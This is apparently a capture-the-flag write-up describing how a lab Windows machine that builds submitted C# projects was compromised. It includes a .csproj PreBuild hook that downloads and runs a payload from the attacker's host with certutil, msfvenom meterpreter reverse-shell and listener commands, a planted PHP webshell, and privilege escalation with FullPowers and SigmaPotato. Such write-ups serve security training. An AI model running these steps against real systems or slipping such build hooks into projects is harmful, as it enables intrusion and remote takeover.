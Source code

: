 
# Git with vengeance 

Build a solution from Visual Studio code. C# project will do. 

Right click on the project and go to the build section.


Load a payload into the pre-compile actions.
Which can be found in the picture below. This is located at `*.csproj`
![Payload](attachments/Pastedimage20231005201455.png)

Utilizing the PreBuild tag, the Exec command = PAYLOAD

---

First attempt failed, Reverse shell in the Prebuild is crashing or having some kind of issue. 

Need to change from powershell reverse shell into a MSFpayload with metasploit

![Reverseshell](<attachments/Pasted image 20231005211129.png>)
Build failed (Sad Trombone)
But what did work was getting wells correct .sln file.

```pre
  <Target Name="PreBuild" BeforeTargets="PreBuildEvent">
    <Exec Command="certutil -f -urlcache http://10.10.14.4:6969/plz.exe c:\users\public\plz.exe&#xD;&#xA;c:\users\public\plz.exe" />
```

This is how inside the .csproj we get the payload to fire.


Payload was 
```msfvenom
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=9001 -f exe -o plz.exe

```

Listener was 

```msfconsole
sfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/
reverse_tcp; set lhost 10.10.14.4; set lport 9001; exploit"
```


![Serverpull](<attachments/Pasted image 20231005231302.png>)

This is the server yanking the files from me and finally executing my staged payload.

Doing some WinPEAS we can find the service XAMPP hosting the webpage we interact with

Doing 
```
C:\ dir /B /S index.php 
```


We can find the Area for the webpage we have been interacting with

![IMAGE](<attachments/Pasted image 20231005231850.png>)


From here we can replace the submit.php file with a php webshell

From the some of our shells we can use certutil.exe to bring another staged payload to the box, but host it on another port. 

![img](<Pasted image 20231005232038.png>)

From here we can use the webshell we moved onto the box. Browse to the /submit.php 

![img](<attachments/Pasted image 20231005232132.png>)

We now have the access level of ![img](<attachments/Pasted image 20231005232257.png>)

Nice but not quite what we need. Working with dabois we found FullPower.exe 

https://github.com/itm4n/FullPowers
On Windows, some services executed as `LOCAL SERVICE` or `NETWORK SERVICE` are configured to **run with a restricted set of privileges**. Therefore, even if the service is compromised, **you won't get the golden impersonation privileges** and privilege escalation to `LOCAL SYSTEM` should be more complicated. However, I found that, when you **create a scheduled task**, the new process created by the **Task Scheduler Service** has **all the default privileges** of the associated user account (except _SeImpersonate_). Therefore, with some token manipulations, you can spawn a new process with all the missing privileges.


So once we run that we now have the ability to gain SEimpersonate YIPEEE

Now using Tylers WICKED updated SIGMA POTATO https://github.com/tylerdotrar/SigmaPotato Which he lovingly built in with a revshell. 

FullPower.exe; SigmaPotato.exe --revshell IP PORT

![img](<attachments/Pasted image 20231005232627.png>)

YEEEEE

